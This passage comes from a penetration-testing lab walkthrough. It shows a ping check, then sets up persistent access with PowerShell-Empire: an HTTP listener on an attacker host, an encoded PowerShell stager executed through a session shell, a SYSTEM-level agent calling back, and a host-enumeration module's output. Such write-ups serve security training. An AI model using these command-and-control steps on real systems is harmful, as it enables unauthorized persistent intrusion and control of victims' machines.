 ```
   Connection-specific DNS Suffix  . : eu-central-1.compute.internal
```

`ping -n 3 10.2.21.72`:
```
Pinging 10.2.21.72 with 32 bytes of data:
Reply from 10.2.21.72: bytes=32 time<1ms TTL=128
Reply from 10.2.21.72: bytes=32 time<1ms TTL=128
Reply from 10.2.21.72: bytes=32 time<1ms TTL=128

Ping statistics for 10.2.21.72:
    Packets: Sent = 3, Received = 3, Lost = 0 (0% loss), ←
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

**Step 5: Establishing Persistent Access with PowerShell-Empire**.

`powershell-empire server`.

`powershell-empire client`, `uselistener http`, `set Host 10.10.11.2`, `set Port 8888`, `execute`, `listeners`:
```
┌Listeners List──────┬───────────────────┬──────────────────────────────────────────┬─────────┐
│ ID │ Name │ Module │ Listener Category │ Created At                               │ Enabled │
├────┼──────┼────────┼───────────────────┼──────────────────────────────────────────┼─────────┤
│ 1  │ http │ http   │ client_server     │ 2024-04-03 12:59:54 IST (24 seconds ago) │ True    │
└────┴──────┴────────┴───────────────────┴──────────────────────────────────────────┴─────────┘
```

`main`, `usestager multi/handler`, `set Listener http`, `execute`:
```
powershell -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBlAHIAcwBJAE8ATgBUAG ...
```

`sessions -i 1`, `shell`, `powershell -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBlAHIAcwBJAE8ATgBUAG ...`.

`agents`:
```
┌Agents──────────┬────────────┬─────────────┬──────────────────┬────────────┬──────┬───────┬─────────────────────────┬──────────┐
│ ID │ Name      │ Language   │ Internal IP │ Username         │ Process    │ PID  │ Delay │ Last Seen               │ Listener │
├────┼───────────┼────────────┼─────────────┼──────────────────┼────────────┼──────┼───────┼─────────────────────────┼──────────┤
│ 1  │ 2X18ML3W* │ powershell │ 10.2.31.174 │ WORKGROUP\SYSTEM │ powershell │ 2256 │ 5/0.0 │ 2024-04-03 13:03:09 IST │ http     │
│    │           │            │             │                  │            │      │       │ (3 seconds ago)         │          │
└────┴───────────┴────────────┴─────────────┴──────────────────┴────────────┴──────┴───────┴─────────────────────────┴──────────┘
```

`interact 2X18ML3W`, `usemodule powershell/situational_awareness/host/computerdetails`, `execute`:
```
LogonType             : 3
NewLogonAccountName   : Administrator
SourcePort            : 41323
SourceNetworkAddress  : 10.10.11.2
Times                 : {4/3/2024 7:16:24 AM}
LogSource             : Security
SourceAccountName     : -
WorkstationName       : WORKSTATION
Count                 : 1
SourceDomainName      : -
NewLogonAccountDomain : ATTACKDEFENSE
LogType               : 4624
```